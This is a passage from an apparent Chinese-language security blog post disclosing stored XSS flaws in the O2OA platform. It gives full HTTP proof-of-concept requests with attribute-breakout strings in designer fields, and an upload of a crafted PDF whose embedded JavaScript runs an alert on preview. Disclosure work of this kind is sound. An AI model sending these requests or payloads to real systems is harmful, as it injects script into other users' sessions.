#e6e6e6","border-radius":"12px","text-align":"center","line-height":"24px","cursor":"pointer","margin-right":"10px","color":"inherit","background-color":"#ffffff","float":"left"},"firstPage_over":{"color":"#ffffff","background-color":"#4a90e2"},"lastPage":{"height":"24px","width":"80px","border":"1px solid #e6e6e6","border-radius":"12px","text-align":"center","line-height":"24px","cursor":"pointer","color":"inherit","background-color":"#ffffff","float":"left"},"lastPage_over":{"color":"#ffffff","background-color":"#4a90e2"},"prePage":{"width":"24px","height":"24px","border-radius":"12px","border":"1px solid #e6e6e6","text-align":"center","line-height":"24px","cursor":"pointer","background-color":"#ffffff","float":"left","margin-right":"10px","background":"url(../o2_core/o2/widget/$Paging/default/icon/left.png) no-repeat center center"},"prePage_over":{"color":"inherit","background-color":"#f1f1f1"},"nextPage":{"width":"24px","height":"24px","border-radius":"12px","border":"1px solid #e6e6e6","text-align":"center","line-height":"24px","cursor":"pointer","background-color":"#ffffff","float":"left","margin-right":"10px","background":"url(../o2_core/o2/widget/$Paging/default/icon/right.png) no-repeat center center"},"nextPage_over":{"color":"inherit","background-color":"#f1f1f1"},"pageTurnContainer":{"float":"left"},"pageItem":{"padding-left":"5px","padding-right":"5px","height":"24px","border-radius":"12px","border":"1px solid #e6e6e6","text-align":"center","line-height":"24px","cursor":"pointer","float":"left","margin-right":"10px","background-color":"#ffffff"},"pageItem_over":{"color":"inherit","background-color":"#f1f1f1"},"preBatchPage":{"padding-left":"5px","padding-right":"5px","height":"24px","line-height":"normal","border":"1px solid #e6e6e6","text-align":"center","border-radius":"12px","cursor":"pointer","float":"left","margin-right":"10px","background-color":"#ffffff"},"preBatchPage_over":{"color":"inherit","background-color":"#f1f1f1"},"nextBatchPage":{"padding-left":"5px","padding-right":"5px","height":"24px","line-height":"normal","border":"1px solid #e6e6e6","text-align":"center","border-radius":"12px","cursor":"pointer","float":"left","margin-right":"10px","background-color":"#ffffff"},"nextBatchPage_over":{"color":"inherit","background-color":"#f1f1f1"},"currentPage":{"width":"24px","height":"24px","border":"1px solid #e6e6e6","text-align":"center","line-height":"24px","border-radius":"12px","cursor":"pointer","float":"left","margin-right":"10px","background-color":"#4a90e2","color":"#ffffff"},"pageJumper":{"float":"left","height":"20px","border-radius":"4px","line-height":"20px","text-align":"center","width":"20px","margin-left":"10px","border":"1px solid #ddd"},"pageJumper_over":{"border":"1px solid #43AAFA"},"pageJumperText":{"float":"left","height":"20px","padding":"2px 5px","text-align":"center","line-height":"20px","margin-right":"5px"},"inforNode":{"float":"left","height":"26px","line-height":"26px","padding":"0px 10px"}}}],"isSequence":"no","pagingbarHidden":false,"searchbarHidden":false,"select":"none","selectBoxShow":"mouseover","allowSelectAll":false,"firstTdHidden":"multi","languageType":"none"},"pageSize":"20","vid":"73ad0133-7609-4ac1-82cc-3454671a7c7a_view","pid":"73ad0133-7609-4ac1-82cc-3454671a7c7a_view73ad0133-7609-4ac1-82cc-3454671a7c7a_view","mid":"73ad0133-7609-4ac1-82cc-3454671a7c7a_view","73ad0133-7609-4ac1-82cc-3454671a7c7a_viewviewFilterType":"custom","viewParameterValueType":"input","viewCustomFilterValueType":"input"}",
  "testParameters": "{"parameter":{},"filterList":[]}",
  "queryName": "">"
}
```

##### /x\_query\_assemble\_designer/jaxrs/importmodel

```
POST /x_query_assemble_designer/jaxrs/importmodel?v=develop-10.0-410-3d5e0d2&mehus0fv HTTP/1.1
Host: localhost
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Accept: text/html,application/json,*/*
Referer: http://localhost/x_desktop/index.html
Content-Type: application/json; charset=UTF-8
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Origin: http://localhost
Sec-Fetch-Dest: empty
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate, br, zstd
Cookie: x-token=Wrr7kmtfAdF_VIsbJE2G26VTUD_aekZEvPAekU6E6zc
Authorization: Wrr7kmtfAdF_VIsbJE2G26VTUD_aekZEvPAekU6E6zc
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Sec-Fetch-Mode: cors
Content-Length: 1428

{
  "name": "hack",
  "id": "6f7d86c2-6d9e-46b0-90fc-b70b84dcaa75",
  "query": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "alias": "",
  "description": "">",
  "type": "cms",
  "enableValid": true,
  "data": "{"events":{"queryLoad":{"code":"","html":""},"postLoad":{"code":"","html":""},"beforeImport":{"code":"","html":""},"afterImport":{"code":"","html":""},"beforeCreateRowData":{"code":"","html":""},"afterCreateRowData":{"code":"","html":""},"validImport":{"code":"","html":""}},"calculateFieldList":[],"columnList":[],"documentType":"信息","documentPublisher":"field","documentPublishTime":"field","processStatus":"draft","processDrafter":"field","category":{"name":"\">","id":"8b71e806-a06e-4e43-9ba6-734a2b4a959a","application":"c5cbc57e-b5cb-458b-99fd-9d7e06f6f842","applicationName":""}}",
  "availableIdentityList": [],
  "availableUnitList": [],
  "isNewImportModel": true,
  "application": "e865ca96-5c91-40b1-b017-3376e5fd235e",
  "applicationName": "">",
  "vid": "6f7d86c2-6d9e-46b0-90fc-b70b84dcaa75",
  "vtype": "Importer",
  "pid": "6f7d86c2-6d9e-46b0-90fc-b70b84dcaa756f7d86c2-6d9e-46b0-90fc-b70b84dcaa75",
  "display": true,
  "queryName": "">"
}
```

### PDF XSS

到这还不算完，我们回到vuldb，去看第二条：  
  
<https://github.com/o2oa/o2oa/issues/156>  
这里提到通知公告处可以上传文件，并且允许预览，因此构成了PDF XSS。这又是比较逆天的一个点，一般来说现在都不让预览了，通过`Content-Disposition`强制下载。  
这就立刻有了一个联想，是不是其他能文件上传的点也能上传非法文件，预览从而构成PDF XSS呢？  
  
在首页看到了什么？网盘文件上传！  
发包：

```
POST /x_file_assemble_control/jaxrs/attachment/upload/folder/(0) HTTP/1.1
Host: localhost
Cookie: x-token=Wrr7kmtfAdHix4JgERWhu3ixkrzMg729vPAekU6E6zc
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://localhost/x_desktop/index.html
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Origin: http://localhost
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjFQV1dvUpMSVzL1C
Accept-Encoding: gzip, deflate, br, zstd
Authorization: Wrr7kmtfAdHix4JgERWhu3ixkrzMg729vPAekU6E6zc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Length: 1010

------WebKitFormBoundaryjFQV1dvUpMSVzL1C
Content-Disposition: form-data; name="file"; filename="xss1.pdf"
Content-Type: application/pdf

{{unquote("%PDF-1.3\x0a%\xe2\xe3\xcf\xd3\x0a1 0 obj\x0a<<\x0a/Type /Pages\x0a/Count 0\x0a/Kids [ ]\x0a>>\x0aendobj\x0a2 0 obj\x0a<<\x0a/Producer \x28PyPDF2\x29\x0a>>\x0aendobj\x0a3 0 obj\x0a<<\x0a/Type /Catalog\x0a/Pages 1 0 R\x0a/Names <<\x0a/JavaScript <<\x0a/Names [ \x284343c79d\05582d0\055419b\0558d2e\055c6bc5e847029\x29 4 0 R ]\x0a>>\x0a>>\x0a>>\x0aendobj\x0a4 0 obj\x0a<<\x0a/Type /Action\x0a/S /JavaScript\x0a/JS \x28app\056alert\050\047xss\047\051\073\x29\x0a>>\x0aendobj\x0axref\x0a0 5\x0a0000000000 65535 f \x0a0000000015 00000 n \x0a0000000068 00000 n \x0a0000000108 00000 n \x0a0000000256 00000 n \x0atrailer\x0a<<\x0a/Size 5\x0a/Root 3 0 R\x0a/Info 2 0 R\x0a>>\x0astartxref\x0a348\x0a%%EOF\x0a")}}
------WebKitFormBoundaryjFQV1dvUpMSVzL1C
Content-Disposition: form-data; name="fileName"

xss1.pdf
------WebKitFormBoundaryjFQV1dvUpMSVzL1C--
```



# 总结

根据漏洞聚集现象，我挖掘出了上面的20个0day xss漏洞。在实际的代码审计中，分析以往漏洞永远是第一步，要善于在寻常中发现不寻常，在普通中嗅到漏洞的风险。  
以上20个漏洞均已提交至vuldb，期待CVE编号ing。  
参考链接：  
<https://github.com/o2oa/o2oa/issues/170>  
<https://github.com/o2oa/o2oa/issues/171>  
<https://github.com/o2oa/o2oa/issues/172>  
<https://github.com/o2oa/o2oa/issues/173>  
<https://github.com/o2oa/o2oa/issues/174>  
<https://github.com/o2oa/o2oa/issues/175>  
<https://github.com/o2oa/o2oa/issues/176>  
<https://github.com/o2oa/o2oa/issues/177>  
<https://github.com/o2oa/o2oa/issues/178>  
<https://github.com/o2oa/o2oa/issues/179>  
<https://github.com/o2oa/o2oa/issues/180>  
<https://github.com/o2oa/o2oa/issues/181>  
<https://github.com/o2oa/o2oa/issues/182>  
<https://github.com/o2oa/o2oa/issues/183>  
<https://github.com/o2oa/o2oa/issues/184>  
<https://github.com/o2oa/o2oa/issues/185>  
<https://github.com/o2oa/o2oa/issues/186>  
<https://github.com/o2oa/o2oa/issues/187>  
<https://github.com/o2oa/o2oa/issues/188>  
<https://github.com/o2oa/o2oa/issues/189>
